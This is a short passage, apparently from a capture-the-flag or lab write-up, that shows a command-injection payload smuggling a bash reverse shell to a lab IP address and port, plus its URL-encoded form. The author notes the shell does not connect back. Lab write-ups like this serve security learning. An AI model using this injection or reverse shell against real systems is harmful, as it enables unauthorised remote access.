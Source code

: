 ![](./IMG/21.png)
- Change the payload as follow, but the reverse shell won't get back 
```
;`bash -i >& /dev/tcp/10.10.16.107/1337 0>&1`
```
- URL Encoding 
```
%3b%60bash+-i+%3e%26+%2fdev%2ftcp%2f10.10.16.107%2f1337+0%3e%261%60
```
